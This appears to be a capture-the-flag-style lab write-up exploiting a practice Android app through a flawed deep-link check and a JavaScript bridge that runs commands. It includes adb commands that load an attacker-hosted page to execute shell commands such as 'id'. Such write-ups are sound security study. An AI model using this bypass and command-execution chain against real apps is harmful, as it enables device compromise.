








# Analysis
1. In `AndroidManifest.xml` we can see activity that process the DeepLink, the scheme and host.


2. Class `WebviewActivity` is do setup the `webView`, it's enabled the javascript and add javascript interface, then call `loadAssetIndex` and `handledDeepLink`.

   

3. The JavaScript Interface allows us to call Java functions from within JavaScript that is loaded in the WebView by using `AndroidBridge`.


4. The function `loadAssetIndex` is just load the `index.html` from assets inside it's self.


5. The function `handleDeepLink` is check whether the Uri provided from `Intent` is valid or not using function `isValidDeepLink`, if the uri is not valid, the code will call `loadAssetIndex`, if it's valid, the code will call `loadDeepLink`.


6. The `isValidDeepLink` function only verifies that the url query parameter ends with "mobilehackinglab.com". However, this check is flawed because it does not account for URL fragments (i.e., the part after #). URL fragments are never sent to the server and are ignored by most URL parsers when determining the domain.


7. And then function `loadDeepLink` will get url from DeepLink query parameter `url` and load it.


8. Function `getTime` is do command execution based on parameter that provided inside javascript at `index.html` that do call `AndroidBridge.getTime("<malicioud command>")`


9. Based on our analysis, we need to craft DeepLink to load our malicious `index.html` that call `AndroidBridge.getTime` with malicious command, and serve the `index.html` so we can used the url as value for DeepLink parameter `url`

# Exploitation
1. Run the app, and icon inside red box is the trigger to load `index.html` inside it's assets.


2. We used `index.html` inside assets the apps as based on our malicious `index.html`.


3. Modified the execution of `index.html` to get the malicious command from query parameter `cmd`


4. Serve our `index.html`


5. Crafting the DeepLink.

We can craft a DeepLink where the actual domain is an attacker-controlled server (e.g., `http://ip:port/index.html?cmd=maliciousCmd`), and we append `#mobilehackinglab.com` at the end of the URL to pass the validation. When the app processes this DeepLink, it will load the attacker-controlled index.html, allowing JavaScript within the page to call AndroidBridge.getTime() with a malicious command.

```url
mhl://mobilehackinglab?url=http://ip:port/index.html?cmd=maliciousCmd#mobilehackinglab.com packagename
```

6. We need to url encoded the value of parameter `url`
```sh
# Before
am start -W -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http://192.168.188.200:8001/index.html?cmd=id#mobilehackinglab.com"
```
```sh
# After
am start -W -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http%3A%2F%2F192.168.188.200%3A8001%2Findex.html%3Fcmd%3Did%23mobilehackinglab.com" com.mobilehackinglab.guessme
```

7. Run the command inside adb shell and the app will load our malicious `index.html`


8. The app will render and display the output of `AndroidBridge.getTime`, which during execution will appear as `AndroidBridge.getTime("id")`.

   
